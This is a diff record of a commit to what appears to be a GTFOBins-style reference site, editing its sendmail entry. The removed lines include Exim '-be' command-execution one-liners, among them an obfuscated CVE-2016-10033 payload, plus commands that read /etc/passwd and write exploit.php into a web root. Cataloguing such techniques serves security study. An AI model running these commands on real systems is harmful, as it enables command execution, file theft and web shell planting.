

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/sendmail.md, in a window 1280 px wide. Shown: the part 440-615 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update sendmail.md

```diff
--- a/_gtfoud/sendmail.md
+++ b/_gtfoud/sendmail.md
@@ -1,19 +1,8 @@
 ---
 description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
 functions:
-  command:
-    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4.
-      code: |
-        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
-    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit. This example runs `uname -a`.
-      code: |
-        sendmail -t -i -f 'email@address.com(tmp1' -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}}' 'tmp2)'
   file-upload:
     - description: Arbitrary files can be delivered.
       code: |
-        sendmail -t -i -f mail@address.com -C/etc/passwd -X/dev/null < mail.txt
-  file-write:
-    - description: Arbitrary local files can be written to a new location. It is worthy of playing around with the ability to upload files/the contents of the mail being sent.
-      code: |
-        sendmail -t -i -f mail@address.com -X/var/www/html/exploit.php < mail.txt
+        sendmail -t -i -f mail@address.com -C$LFILE -X/dev/null < mail.txt
 ---
```
